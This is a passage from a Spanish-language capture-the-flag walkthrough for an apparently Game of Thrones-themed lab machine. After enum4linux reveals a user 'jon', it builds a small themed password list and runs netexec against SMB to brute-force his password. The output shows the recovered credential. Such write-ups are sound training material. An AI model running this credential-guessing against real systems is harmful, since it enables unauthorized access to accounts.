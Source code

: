 ```
No printers returned.                                                                                                             


enum4linux complete on Mon Jan 20 09:57:19 2025
```

Vemos que hay un usuario llamado `jon`, por lo que haremos lo siguiente...

### netexec

> dic.txt

```
seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo
```

```shell
netexec smb <IP> -u jon -p dic.txt
```

Info:

```
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing FTP protocol database
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Initializing WMI protocol database
[*] Initializing WINRM protocol database
[*] Initializing MSSQL protocol database
[*] Initializing VNC protocol database
[*] Initializing LDAP protocol database
[*] Copying default configuration file
SMB         172.17.0.2      445    83214CBA54C7     [*] Windows 6.1 Build 0 (name:83214CBA54C7) (domain:83214CBA54C7) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    83214CBA54C7     [+] 83214CBA54C7\jon:seacercaelinvierno 
```
